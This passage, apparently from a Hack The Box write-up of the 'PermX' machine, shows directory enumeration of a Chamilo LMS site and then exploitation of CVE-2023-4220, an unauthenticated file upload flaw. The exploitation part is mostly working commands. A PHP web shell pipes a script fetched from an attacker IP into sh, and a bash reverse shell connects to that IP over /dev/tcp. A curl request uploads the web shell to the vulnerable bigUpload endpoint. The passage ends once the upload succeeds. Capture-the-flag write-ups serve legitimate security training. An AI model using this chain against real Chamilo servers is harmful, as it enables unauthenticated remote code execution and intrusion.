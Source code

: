 ```c
[15:09:32] 200 -    1KB - /vendor/                                          
[15:09:32] 200 -    0B  - /vendor/autoload.php                              
[15:09:32] 200 -    0B  - /vendor/composer/autoload_files.php
[15:09:32] 200 -    0B  - /vendor/composer/ClassLoader.php
[15:09:32] 200 -    1KB - /vendor/composer/LICENSE
[15:09:32] 200 -    0B  - /vendor/composer/autoload_psr4.php                
[15:09:32] 200 -    0B  - /vendor/composer/autoload_static.php              
[15:09:32] 200 -    0B  - /vendor/composer/autoload_namespaces.php          
[15:09:32] 200 -    0B  - /vendor/composer/autoload_real.php                
[15:09:32] 200 -    0B  - /vendor/composer/autoload_classmap.php            
[15:09:34] 200 -    6KB - /web.config                                       
[15:09:34] 200 -  479B  - /web/                                             
[15:09:39] 200 -  531KB - /vendor/composer/installed.json                    
                                                                             
Task Completed
```

### Chamillo Enumeration

From the `README.md` we extracted the `version` of the running instance.

- [http://lms.permx.htb//README.md](http://lms.permx.htb//README.md)

```c
# Chamilo 1.11.x
```

## Foothold

### CVE-2023-4220: Chamilo LMS Unauthenticated Big Upload File Remote Code Execution

The version of `Chamilo LMS` running on the box was vulnerable to `CVE-2023-4220` which allows an `unauthenticated` attacker to `upload arbitrary files` to the system.

- [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

We prepared our payloads and followed the `Proof of Concept (PoC)` steps described in the article.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ echo '<?php system("curl http://10.10.14.66/x|sh"); ?>' > rce.php
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.66/9001 0>&1'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```
